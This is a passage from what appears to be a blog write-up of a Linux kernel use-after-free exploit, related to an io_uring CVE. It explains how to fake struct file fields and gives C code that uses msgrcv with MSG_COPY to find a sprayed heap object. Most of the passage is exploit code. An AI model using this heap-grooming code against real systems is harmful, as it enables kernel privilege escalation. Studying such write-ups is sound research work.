 ```
1293	}
1294	fput(filp);
1295	return retval;
1296 }
```

Only need that f_count > 0, the f_op->flush contains a NULL (flush is at f_op+0x70) and f_mode to be 0x4000.

```
#define FMODE_PATH		((__force fmode_t)0x4000)
```

What address can be f_op? In [this](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/) nice write up, it advices the NULL_MEM 0xfffffe0000002000 address.

Because we don´t want another UAF yet, we will put the f_count = 2, only to locate the chunk and for doing other after spray. Like so, we are going to do msgrcv (with the flag MSG_COPY, it will do a copy and the message isn´t deleted) and locate it. If the message is found, it will be deleted for the next target object for the exploit.

```
int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, MSG_COPY | IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		printf("errno: %d\n", errno);
		exit(0);
	}
	
	return 0;
}

int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {

	if (msgrcv(msqid, msgp, msgsz, msgtyp, IPC_NOWAIT | MSG_NOERROR) < 0) {
		perror("[-] msgrcv");
		exit(0);
	}
	
	return 0;
}
```

```
char *buf = NULL;
uint32_t uaf = 0;
for (i = 0; i < NUM_MSQIDS; i++) {
	pin_cpu(i % ncpus);
	/* Read de messages of first spray for finding the vulnerable object */
	memset(&message_r, 0, sizeof(message_r));
	if (peek_msg(msqid[i], &message_r, sizeof(message_r.text), 0) < 0) {
		perror("[-] peek_msg");
		exit(0);
	}

	buf = ((char *) &message_r) + PAGE_SIZE - MSG_HEAD_SIZE;
	/* Found message, deleted */
	if (buf[56] != 2) {
		uaf = i;
		printf("[+] Found object at %d\n", uaf);
		memset(&message_r, 0, sizeof(message_r));
		if (read_msg(msqid[uaf], &message_r, sizeof(message_r.text), MTYPE_FIRST) < 0) {
			perror("[-] read_msg");
			exit(0);
		}
		break;
```